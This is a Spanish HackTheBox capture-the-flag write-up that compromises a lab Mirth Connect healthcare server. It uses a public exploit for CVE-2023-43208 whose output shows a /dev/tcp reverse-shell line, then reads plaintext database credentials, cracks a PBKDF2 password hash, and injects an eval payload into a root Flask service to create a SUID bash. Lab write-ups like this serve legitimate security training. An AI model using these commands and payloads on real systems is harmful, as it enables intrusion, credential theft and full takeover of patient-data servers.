

+++
title = "HackTheBox - Interpreter"
draft = false
description = "Resolución de la máquina Nibbles"
tags = ["HTB", "Linux", "Medium", "HL7", "Mirth", "CVE", "DB", "Local Service"]
summary = "OS: Linux | Dificultad: Medium | Conceptos: HL7, Mirth, CVE Público, MariaDB, Red Sanitaria"
categories = ["Writeups"]
showToc = true
date = "2026-02-23T00:00:00"
showRelated = true
+++

* Dificultad: `medium`
* Tiempo aprox. `~4h`
* **Datos Iniciales**: `10.129.2.190`

### Nmap Scan y enumeración
Tras hacer un scan nmap completo, encontramos lo siguiente:
```bash
$ nmap -sT -Pn -n -p22,80,443,6661 -sVC --open 10.129.2.190

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 07:eb:d1:b1:61:9a:6f:38:08:e0:1e:3e:5b:61:03:b9 (ECDSA)
|_  256 fc:d5:7a:ca:8c:4f:c1:bd:c7:2f:3a:ef:e1:5e:99:0f (ED25519)
80/tcp   open  http     Jetty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mirth Connect Administrator
443/tcp  open  ssl/http Jetty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mirth Connect Administrator
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mirth-connect
| Not valid before: 2025-09-19T12:50:05
|_Not valid after:  2075-09-19T12:50:05
6661/tcp open  unknown

# Nada en UDP, top 200 puertos
```
Aunque no se nos redirija a ningún dominio/vhost, añadimos `interpreter.htb` a `/etc/hosts` para estandarizar el nombre del server.

- `TCP/22 (SSH)`: OpenSSH 9.2p1, tenía una vulnerabilidad crítica (Unauthenticated RCE por race condition) pero era bastante compleja de explotar, así que la consideramos versión no vulnerable (a efectos prácticos).
- `TCP/80 (HTTP)`: Jetty, servidor http basado 100% en java
  - Sirviendo una página con título `Mirth Connect Administrator`
  - Método HTTP peligroso: `TRACE`
- `TCP/443 (HTTPS)`: Al comprobar a solicitar la página con `curl -k` veo que sirve exactamente lo mismo que el puerto 80.
- `TCP/6661 (?)`: El scan de nmap no detecta servicio, tendremos que mirar más a fondo.

Respecto a `Mirth Connect Administrator`, en Internet pone lo siguiente:
> *Mirth Connect is an open-source integration engine designed primarily for healthcare to enable seamless data exchange between disparate systems. It handles real-time translation, transformation, and routing of messages across formats like HL7, FHIR, JSON, XML...*

> *Mirth Connect Administrator is a key component of the Mirth Connect integration engine, allowing users to manage data transmission and healthcare integrations effectively. It provides a dashboard for overseeing channels, user management, system settings, and alerts*

Respecto al puerto 6661, en Internet pone lo siguiente:
> *Port 6661 is commonly associated with the [HL7](https://hl7europe.org/) protocol used in healthcare for exchanging patient data, but it can also be flagged for malware activity.*
Contando con el hecho de que los puertos 80 y 443 sirven un panel de control relacionado con temas de sanidad, la primera opción (Protocolo HL7) se hace bastante más probable

### Health Level Seven (HL7)
Tras [buscar en internet](https://www.paessler.com/it-explained/hl7#cover), veo lo siguiente:
[**Health Level Seven (HL7)**](https://hl7europe.org/) no es un protocolo de red en sí, sino un estándar de mensajería de la capa de aplicación (De ahí el 7, de la capa 7 del modelo OSI) que sirve para que diferentes sistemas informáticos médicos (normalmente de fabricantes distintos) puedan intercambiar info clínica. Se usa comúnmente en hospitales, clínicas y laboratorios.

Hay varias versiones:
- **HL7 v2.x**: Las más implementadas, *por defecto usan el puerto 6661*, operando sobre el protocolo MLLP
- **HL7 v3**: Con algunas mejoras pero no tan implementadas por no ser retrocompatibles con 2.x
- **HL7 FHIR**: La más moderna. Usa HTTP(S) y peticiones RESTful con json/xml

En HTTP(s) tenemos Mirth Connect. Como HL7 FHIR es la versión moderna y trabaja sobre HTTP(s), me pregunto si será posible que tanto HL7 2.x como FHIR coexistan en el mismo server a la vez, a lo que encuentro la respuesta:
> It's common for HL7 2.x and FHIR to coexist on the same server in healthcare systems, especially during transitions to modern standards. HL7 2.x often runs on a custom TCP port like 6661 using MLLP for legacy messaging, while FHIR operates over standard HTTP(S) ports (e.g. 80, 443) for RESTful APIs.

De momento tenemos prácticamente confirmado que HL7 2.x está activo en el 6661, solo quedaría confirmar si FHIR también lo está en el 80/443 y, dado que esa versión opera como API REST, necesitaremos encontrar su endpoint. Al buscar en Internet, veo:
> In Mirth Connect, there is no single fixed FHIR API endpoint. Instead, the endpoint is determined by how a specific FHIR Listener channel is configured within the Mirth Administrator.
Así que necesitaremos acceder a Mirth Administrator para ver su endpoint (o sacarlo a fuerza bruta).

## TCP/6661 - HL7
HL7 opera sobre MLLP, que necesita saber dónde empiezan y acaban los mensajes, así que tiene un formato estricto:
1. Inicio de mensaje: `0x0b`
2. Payload: Todo el mensaje HL7 2.x en texto.
3. Fin del mensaje; `0x1c 0x1d`

### Formato y significado de payload HL7
Esta información no es estrictamente necesaria para el CTF, pero si por curiosidad quieres saber el significado del payload HL7 puedes leerla. Si no, sáltate este bloque:
1. `Segmento MSH obligatorio`: Header, define los delimitadores que usará el resto del mensaje
2. `Separador de segmentos`: Obligatoriamente `\r`, no vale `\r\n`
3. `Delimitadores entre info`: `|`, `^`, `~`, `&` separan campos y componentes. (ver ejemplo)

P.ej, un payload válido para HL7 sería (sacado de [Wikipedia](https://en.wikipedia.org/w/index.php?title=HL7&oldid=1327843717#HL7_Version_2)):

```hl7
MSH|^~\&|MegaReg|XYZHospC|SuperOE|XYZImgCtr|20060529090131-0500||ADT^A01^ADT_A01|01052901|P|2.5
EVN||200605290901||||
PID|||56782445^^^UAReg^PI||KLEINSAMPLE^BARRY^Q^JR||19620910|M||2028-9^^HL70005^RA99113^^XYZ|260 GOODWIN CREST DRIVE^^BIRMINGHAM^AL^35209^^M~NICKELL’S PICKLES^10000 W 100TH AVE^BIRMINGHAM^AL^35200^^O|||||||0105I30001^^^99DEF^AN
PV1||I|W^389^1^UABH^^^^3||||12345^MORGAN^REX^J^^^MD^0010^UAMC^L||67890^GRAINGER^LUCY^X^^^MD^0010^UAMC^L|MED|||||A0||13579^POTTER^SHERMAN^T^^^MD^0010^UAMC^L|||||||||||||||||||||||||||200605290900
OBX|1|NM|^Body Height||1.80|m^Meter^ISO+|||||F
OBX|2|NM|^Body Weight||79|kg^Kilogram^ISO+|||||F
AL1|1||^ASPIRIN
DG1|1||786.50^CHEST PAIN, UNSPECIFIED^I9|||A
```
- **MSH**: Header, indica el quién manda el mensaje y quién lo recibe (`MegaReg` y `SuperOE`, respectivamente) y el tipo de mensaje (`ADT^A01` - Admisión de paciente)
- **EVN**: Fecha y hora del evento
- **PID**: Datos del paciente, `KLEINSAMPLE BARRY`, nacido el `10/09/1962`, sexo `M`asculino.
- **PV1**: Datos de visita al hospital, ubicación asignada, médicos que le atienden.
- **OBX**: Resultados y observaciones. Altura `1.80m`, peso `79kg`.
- **AL1**: Alergias (`ASPIRIN`)
- **DG1**: Diagnóstico (`CHEST PAIN, UNSPECIFIED`)

### Mensaje a HL7 p.6661
Para mandar este mensaje a HL7 2.x hay que envolverlo según los requisitos de MLLP. Creamos un payload que mande un mensaje y recoja el output:
```bash
echo -ne "\x0bMSH|^~\&|MegaReg|XYZHospC|SuperOE|XYZImgCtr|20060529090131-0500||ADT^A01^ADT_A01|01052901|P|2.5\rEVN||200605290901||||\rPID|||56782445^^^UAReg^PI||KLEINSAMPLE^BARRY^Q^JR||19620910|M||2028-9^^HL70005^RA99113^^XYZ|260 GOODWIN CREST DRIVE^^BIRMINGHAM^AL^35209^^M~NICKELL’S PICKLES^10000 W 100TH AVE^BIRMINGHAM^AL^35200^^O|||||||0105I30001^^^99DEF^AN\rPV1||I|W^389^1^UABH^^^^3||||12345^MORGAN^REX^J^^^MD^0010^UAMC^L||67890^GRAINGER^LUCY^X^^^MD^0010^UAMC^L|MED|||||A0||13579^POTTER^SHERMAN^T^^^MD^0010^UAMC^L|||||||||||||||||||||||||||200605290900\rOBX|1|NM|^Body Height||1.80|m^Meter^ISO+|||||F\rOBX|2|NM|^Body Weight||79|kg^Kilogram^ISO+|||||F\rAL1|1||^ASPIRIN\rDG1|1||786.50^CHEST PAIN, UNSPECIFIED^I9|||A\r\x1c\x0d" | nc -q 2 interpreter.htb 6661 >> archivo
```
Y miramos el output:
```bash
$ cat archivo
MSA|AA|01052901E|XYZImgCtr|MegaReg|XYZHospC|20260223135153.261||ACK^A01^ACK|20260223135153.261|P|2.5
```
Nos ha devuelto un ACK, que de forma resumida significa:
- `MSA`: Message Acknowledgement
- `AA`: Application Accept (Mirth ha recibido nuestro mensaje, lo ha procesado y lo ha *aceptado*)
- Campos reflejados y tiempo del sistema.

Los datos que hemos mandado se habrán guardado en algún sitio, pero como de momento no sabemos ni dónde ni cómo, solo nos queda mirar en Mirth Connect Admin.

## TCP/80 & TCP/443 - Mirth Connect Administrator
Al entrar al puerto 80 vemos un panel de login:

Según la propia página, necesitamos acceder al servidor por HTTPS para autenticarnos, así que pulsamos de `Access Secure System` y aceptamos el peligro del certificado autofirmado.

Ahora podemos iniciar sesión con unas credenciales que desconocemos. Antes de buscar credenciales por defecto, miramos la versión de Mirth Connect para ver si hay alguna vulnerabilidad conocida.

### Enumeración de versión de Mirth
Al mirar en Internet, veo que la versión puede verse sin estar autenticados haciendo una solicitud al endpoint `/api/server/version`. Desde Firefox:


Tenemos que añadir un header `X-Requested-With`, así que hacemos la solicitud con curl:
```bash
$ curl -k -H "X-Requested-With: test123" https://interpreter.htb/api/server/version
4.4.0
```

### CVE-2023-43208 -> Foothold inicial
Encontramos [varias vulnerabilidades importantes](https://www.incibe.es/incibe-cert/alerta-temprana/avisos-sci/multiples-vulnerabilidades-en-mirth-connect-de-nextgen) para esta versión (**Unauthenticated RCE**). En especial, la que aplica para esta versión es [**`CVE-2023-43208`**](https://nvd.nist.gov/vuln/detail/cve-2023-43208).

Hay un [exploit público](https://github.com/vedant-joshi-og/CVE-2023-43208-EXPLOIT) que usamos en este caso (fork de otro que usaba dependencias obsoletas de hace 2 años):
```bash
$ python3 CVE-2023-43208.py -u https://interpreter.htb -lh 10.10.15.24 -lp 4444
Ç
 ██████ ██    ██ ███████       ██████   ██████  ██████  ██████        ██   ██ ██████  ██████   ██████   █████
██      ██    ██ ██                 ██ ██  ████      ██      ██       ██   ██      ██      ██ ██  ████ ██   ██
██      ██    ██ █████   █████  █████  ██ ██ ██  █████   █████  █████ ███████  █████   █████  ██ ██ ██  █████
██       ██  ██  ██            ██      ████  ██ ██           ██            ██      ██ ██      ████  ██ ██   ██
 ██████   ████   ███████       ███████  ██████  ███████ ██████             ██ ██████  ███████  ██████   █████

[+] Coded By: K3ysTr0K3R and Chocapikk ( NSA, we're still waiting :D )

[*] Setting up listener on 10.10.15.24:4444 and launching exploit...
Exception in thread Thread-1 (start_listener):
Traceback (most recent call last):
...[SNIP]...
OSError: [Errno 98] Address already in use (while attempting to bind on address ('0.0.0.0', 4444))
[*] Looking for Mirth Connect instance...
[+] Found Mirth Connect instance
[+] Vulnerable Mirth Connect version 4.4.0 instance found at https://interpreter.htb
[!] sh -c $@|sh . echo bash -c '0<&53-;exec 53<>/dev/tcp/10.10.15.24/4444;sh <&53 >&53 2>&53'
[*] Launching exploit against https://interpreter.htb...
```

Y mientras en el handler:
```bash
$ penelope -i 10.10.15.24
[+] Listening for reverse shells on 10.10.15.24:4444 
[+] Got reverse shell from interpreter~10.129.2.190-Linux-x86_64
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 

mirth@interpreter:/usr/local/mirthconnect$
```

## Privesc 1 (`mirth` -> `sedric`)
De momento somos `mirth`,  no tenemos permiso para leer `/home/sedric`, así que tendremos que conseguir llegar a su usuario y luego root, o llegar a root directamente.

Al ejecutar linPEAS encontramos varias cosas:
- `MariaDB` ejecutándose.
  - `mariadb.service: Uses relative path 'sync' (from # ExecStartPre=sync)`
  - `mariadb.service: Uses relative path 'sysctl' (from # ExecStartPre=sysctl -q -w vm.drop_caches=3)`
  - `mariadb.service: Uses relative path 'sysctl' (from # ExecStartPre=sysctl -q -w vm.drop_caches=3)`
  - `mariadb.service: Uses relative path 'sysctl' (from # ExecStartPre=sysctl -q -w vm.drop_caches=3)`
- Local-Only Listeners (loopback):
  - `tcp LISTEN 127.0.0.1:54321`
  - `tcp LISTEN 127.0.0.1:3306`

### Puerto 54321 - Flask
Antes de ir a por MariaDB, hacemos port forwarding del puerto 54321 para ver qué es:
```bash
mirth@interpreter:/tmp$ socat TCP-LISTEN:8888,bind=0.0.0.0,fork,reuseaddr TCP:127.0.0.1:54321 & disown
# "& disown" para mandar el proceso al background y desheredarlo para recuperar el shell inmediatamente.
```

Y mientras en nuestra máquina:
```bash
$ nmap interpreter.htb -p8888 -sVC

PORT     STATE SERVICE VERSION
8888/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: 404 Not Found
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
```

Si pedimos cualquier cosa al servidor, vemos que para todo nos devuelve `404`:
```bash
$ curl interpreter.htb:8888         
<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>

$ gobuster dir -u http://interpreter.htb:8888 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
Starting gobuster in directory enumeration mode
...
===============================================================
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
```

No encuentra nada, pero como Flask funciona diferente a los servers web normales como Apache o nginx (requere "mapear" endpoints a elementos específicos a servir), vendría bien saber el nombre de los endpoints, y para ello vendría bien saber qué proceso está sirviendo el server Flask. Esto podemos deducirlo por descarte.

El proceso debe ser de python (porque flask es de python), versión 3.x (por el análisis nmap), y evidentemente no ser el proceso de nuestra reverse shell o el de fail2ban (que son otros procesos de python que sabemos que no corresponden al servicio). Esto nos deja una sola opción:

```bash
$ ps aux 
...[SNIP]...
root        3567  0.0  0.8 466896 33408 ?        Ss   10:10   0:17 /usr/bin/python3 /usr/local/bin/notif.py
```

`/usr/local/bin/notif.py`, ejecutándose como root, puede ser un vector de escalada importante. El principal problema es el siguiente:
```bash
$ ls -al /usr/local/bin/notif.py 
-rwxr----- 1 root sedric 2332 Sep 19 09:27 /usr/local/bin/notif.py
```
No tenemos permiso ni siquiera de lectura, ahora bien, ver que `sedric` puede leerlo es un indicativo importante de que posiblemente la siguiente escalada de privilegios (`sedric -> root`) sea a través de este proceso. Dicho esto, nos queda MariaDB.

### Puerto 3306 - MariaDB
Y, por descarte de nuevo, si el otro vector era de `sedric` a `root`, este tiene que ser de `mirth` a `sedric`.

Necesitamos las credenciales de MariaDB, así que aprovecharemos el hecho de que probablemente se reutilicen o se incluyan explícitamente en los archivos de Mirth (porque el servicio debe acceder a la DB). Encontramos los archivos de Mirth Connect, ubicados en `/usr/local/mirthconnect`. Ahí encontramos `/usr/local/mirthconnect/conf/mirth.properties`:

```bash
cat /usr/local/mirthconnect/conf/mirth.properties

...[SNIP]...
database.url = jdbc:mariadb://localhost:3306/mc_bdd_prod
database.username = mirthdb
database.password = MirthPass123!
```

Y con esto entramos en MariaDB:
```bash
mirth@interpreter:/tmp$ mysql -u mirthdb -p"MirthPass123!"
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 41
Server version: 10.11.14-MariaDB-0+deb12u2 Debian 12

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mc_bdd_prod        |
+--------------------+

MariaDB [(none)]> use mc_bdd_prod;
Database changed
```

Ahora listamos las tablas para ver qué columnas interesantes hay:
```bash
MariaDB [mc_bdd_prod]> show tables;
+-----------------------+
| Tables_in_mc_bdd_prod |
+-----------------------+
| ALERT                 |
| CHANNEL               |
| ...[SNIP]...          |
| PERSON                |
| PERSON_PASSWORD       |
| PERSON_PREFERENCE     |
| SCHEMA_INFO           |
| SCRIPT                |
+-----------------------+
```

Seleccionamos `PERSON_PASSWORD` y `PERSON`:
```bash
MariaDB [mc_bdd_prod]> SELECT * FROM PERSON, PERSON_PASSWORD;

#Simplificando el output
PERSON      PERSON_ID       PASSWORD
sedric      2               u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==
```

#### Crackeando el hash
Tras una búsqueda, veo que a partir de Mirth Connect 4.4.0 (inclusive) se pasó a usar PBKDF2-HMAC-SHA256 sustituyendo a Raw-SHA256, y los hashes funcionan de la siguiente manera:

La string `u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==` tiene 40 bytes.
- Los primeros 8 son el salt
- Los otros 32 son el hash

Para crackearlo, usaremos hashcat con el formato que espera su modo `10900` (`PBKDF2-HMAC-SHA256`): `sha256:iteraciones:salt_b64:hash_b64`. En nuestro caso `iteraciones` es `600000` (por defecto a partir de Mirth 4.4.0), porque aunque puede cambiarse el número en `mirth.properties -> digest.iterations`, no se ha modificado (no aparece) la línea.

```python
import base64

string = "u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w=="
raw = base64.b64decode(string)

iter = 600000
salt_b64 = base64.b64encode(raw[:8]).decode()
hash_b64 = base64.b64encode(raw[8:]).decode()

print(f"sha256:{iter}:{salt_b64}:{hash_b64}")
```

Esto nos da el siguiente hash:
`sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=`

> [!tip]+ Nota: Iteraciones
> *La fuerza bruta es factible aquí porque, aunque haya 600000 iteraciones, en esta situación la contraseña muy probablemente esté en rockyou. Ahora bien, en una situación real esto es impracticable (si no se dispone de semanas), y el que no tenga gráfica dedicada va a tardar un rato.*

Ahora crackeamos el hash:
```bash
hashcat -m 10900 -a 0 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...[SNIP]...

sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=:snowflake1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD...Ld8Ps=
...
Candidates.#1....: 123456 -> mcmanus

Started: Mon Feb 23 23:33:06 2026
Stopped: Mon Feb 23 23:34:03 2026
```

Y así conseguimos la contraseña `snowflake1`.

## Privesc 2 (`sedric` -> `root`)
Nos conectamos por SSH para tener una shell completa y miramos si somos sudoers:
```bash
$ ssh sedric@interpreter.htb
sedric@interpreter.htb's password: 

sedric@interpreter:~$ sudo -l
-bash: sudo: command not found
```

Ni siquiera hay `sudo`, así que vamos directos al script `/usr/local/bin/notif.py`, el cual efectivamente confirmamos estaba escuchando en el puerto 54321. Según un propio comentario en el script hace lo siguiente:
> *Notification server for added patients. This server listens for XML messages containing patient information and writes formatted notifications to files in /var/secure-health/patients/. It is designed to be run locally and only accepts requests with preformated data from MirthConnect running on the same machine. It takes data interpreted from HL7 to XML by MirthConnect and formats it using a safe templating function.*

El endpoint que buscábamos antes por fuerza bruta es `/addPatient`, que atiende requests POST y hace lo siguiente:
- Decodea los datos que llegan
- Si no hay tag de paciente, da error.
- Mete los datos en un template
- Una vez formateados con el template, los mete a una "notificación" en un archivo.

El código tiene una vulnerabilidad importante que se da en el paso del template. Se usa la siguiente función:

```python
def template(first, last, sender, ts, dob, gender):
    pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
    for s in [first, last, sender, ts, dob, gender]:
        if not pattern.fullmatch(s):
            return "[INVALID_INPUT]"
    # DOB format is DD/MM/YYYY
    try:
        year_of_birth = int(dob.split('/')[-1])
        if year_of_birth < 1900 or year_of_birth > datetime.now().year:
            return "[INVALID_DOB]"
    except:
        return "[INVALID_DOB]"
    template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
    try:
        return eval(f"f'''{template}'''")
    except Exception as e:
        return f"[EVAL_ERROR] {e}"
```

Específicamente en estas líneas:
```python
template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"

return eval(f"f'''{template}'''")
```
Aquí el script toma nuestro input, lo mete a una plantilla e inmediatamente lo evalúa, con la única barrera de que antes hace esto:
```python
pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
    for s in [first, last, sender, ts, dob, gender]:
        if not pattern.fullmatch(s):
            return "[INVALID_INPUT]"
```
Es decir, que no nos permite añadir "` `", "`,`", "`-`" ni "`[]`", pero podemos evadir esto usando `chr(32)` para espacios (el resto ni lo necesitamos):

```payload.xml
<patient>
    <firstname>{os.system('cp'+chr(32)+'/bin/bash'+chr(32)+'/tmp/rootbash')}</firstname>
    <lastname>{os.system('chmod'+chr(32)+'4755'+chr(32)+'/tmp/rootbash')}</lastname>
    <sender_app>htb</sender_app>
    <timestamp>now</timestamp>
    <birth_date>01/01/1990</birth_date>
    <gender>M</gender>
</patient>
```

Probamos a mandarlo desde el servidor:
```bash
sedric@interpreter:/tmp$ curl -X POST http://127.0.0.1:54321/addPatient -d @/tmp/payload.xml
-bash: curl: command not found
```

Así que tendremos que usar el port forward creado antes:
```bash
$ curl -X POST http://interpreter.htb:8888/addPatient -H "Content-Type: application/xml" -d @payload.xml
Patient 0 0 (M), 36 years old, received from htb at now
```

Volvemos a SSH:
```bash
sedric@interpreter:/tmp$ ./rootbash -p
rootbash-5.2# 
```

Y tenemos root.
